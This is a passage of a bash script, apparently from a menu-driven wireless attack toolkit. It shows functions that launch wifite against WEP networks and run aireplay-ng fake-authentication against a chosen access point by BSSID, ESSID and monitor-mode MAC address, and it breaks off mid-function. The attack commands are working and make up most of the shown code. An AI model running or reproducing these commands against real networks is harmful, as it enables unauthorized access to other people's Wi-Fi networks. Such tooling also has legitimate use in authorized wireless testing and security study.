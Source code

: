 			"R" | "r")
			menuAttacksWEP
			;;

		esac
		;;
		

		*)
		menuAttacksWEP
		;;

	esac

	menuAttacksWEP

}


menuAttacksWEPWifiteAuto(){

	currentTask="menuAttacksWEPWifiteAuto"
	lastMenuID="menuAttacksWEPWifiteAuto"

	killAll

	#$terminal $wifiteAttackWEP -c $channel -b $bssid -e $essid -wepsave -wepca 5000 &
	$terminal $wifiteAttackWEP -wepsave "$initPath" -wepca 5000 &

	banner
	bannerStats

	echo ""
	echo "The wifite session should be launched in a separate window."
	echo ""
	echo "PRESS ENTER ONLY WHEN THE SESSION HAS FINISHED!"
	echo ""
	echo "AS SOON AS ENTER IS PRESSED THE WIFITE SESSION WILL BE RESET!"
	echo ""

	read pause

	sessionCopyNewCaptureFiles

	killAll
	menuAuto

}


arAssociate(){

	currentTask="arAssociate"

	echo ""
	echo ""

	$terminal aireplay-ng -1 6000 -e $essid -a $bssid -h $macAddressMonitor $interfaceMonitor &

	echo ""
	echo ""
